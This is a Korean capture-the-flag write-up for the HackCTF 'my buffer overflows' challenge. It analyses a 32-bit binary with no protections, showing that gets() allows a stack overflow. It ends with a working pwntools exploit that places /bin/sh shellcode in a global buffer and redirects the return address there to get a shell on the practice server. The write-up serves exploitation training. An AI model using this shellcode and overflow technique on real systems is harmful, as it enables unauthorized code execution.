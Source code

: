 **HackCTF - 내 버퍼가 흘러 넘친다**

| layout | title                                  | auther   | categories | tags           |
| ------ | -------------------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - 내 버퍼가 흘러넘친다 Writeup | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file` 명령어를 통해 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file prob1
prob1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=5d3d07390dded54d6181762da26c7a17fd49522e, not stripped

```



`checksec` 스크립트를 이용해 바이너리에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec prob1
[*] '/home/mac/Desktop/hackCTF/prob1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

해당 바이너리에는 어떠한 메모리 보호기법도 적용되어 있지 않다. ~~(굳)~~

일단은 바이너리를 실행시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./prob1
Name : AAAAAAAAAAAAAAAAAAAAAAAAAAAa
input : BBBBBBBBBBBBBBBBBBBBBBBBb
[1]    3450 segmentation fault (core dumped)  ./prob1

```

바이너리를 실행시키면 `name :`이라는 문자열을 출력한 뒤, 사용자로부터 입력을 받는다.

이후 `input : `이라는 문자열을 출력한 뒤 다시 사용자로부터 입력을 받는다.

출력 -> 입력 -> 출력 -> 입력의 프로세스를 가지고 있다.

프로그램의 흐름은 파악하였으니 소스코드를 분석해보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75624118-bc72a800-5bf4-11ea-9001-398d8a3c8bf6.png)

`main`함수의 구성은 정말 매우 간단했다.

`buffer`를 비워준 뒤, 앞서 살펴보았던 프로그램의 프로세스 그대로 진행된다.

입력을 받는 `read`함수에서는 `name`변수에 총 50bytes를 입력받고, `gets`함수에서는 `s` 변수에 길이 검사 없이 입력을 받는다.

`BOF`에 취약한 `gets` 함수를 사용하고 있다, 따라서 이를 이용하면 `return address`를 조작하여 프로그램의 흐름을 조작할 수 있다.

그러나 다소 이상한 점이 있다. 첫번째 입력을 받는 루틴에서 사용되는 `name`변수의 선언부가 보이지 않는다.

이를 참조하고 있는 부분을 역참조해보았다.

![image](https://user-images.githubusercontent.com/33051018/75624165-2ab76a80-5bf5-11ea-9d42-418dad715137.png)

예상대로 전역변수로 선언되어 `bss`영역에 위치하였다.

정리해본다.

첫번째 입력을 받는 루틴에서는 총 50bytes를 입력받아 `bss`영역에 위치하는 변수에 초기화한다.

두번쨰 입력을 받는 루틴에서는 `gets`함수를 사용하여 입력받기에 `BOF`를 일으킬 수 있다.

또한, 해당 바이너리에는 `NX mitigation` 또한 `disabled` 상태이기 때문에 `stack` 영역의 실행 권한에도 제한이 없다.

따라서, 첫번째 입력을 받는 구간에 적당한 길이의 `shellcode`를 전달하여 저장하고, 두번째 입력을 받는 구간에서 `gets`함수가 실행되고 복귀하는 `return address`를 조작하여 `shellcode` 부분으로 `EIP`의 흐름을 조작하도록 한다.



# Exploit

---

## Exploit code

```python
from pwn import *               

#p = process('./prob1')                                                                           
p = remote('ctf.j0n9hyun.xyz', 3003)
shellcode='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

payload1 = '\x90'*20                 # Nop sleding                                   
payload1 += shellcode                                                   
                                                                      
payload2 = 'A'*24                    # dummy                                  
payload2 += p32(0x804a060)           # Name variable's addr                                
                                                                        
p.recvuntil('Name : ')                                                  
p.sendline(payload1)                                                    
                                                                       
p.recvuntil('input : ')                                                 
p.sendline(payload2)                                                    
                                                                    
p.interactive() 
```



```
cf) 사용한 쉘코드 (25bytes) : \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

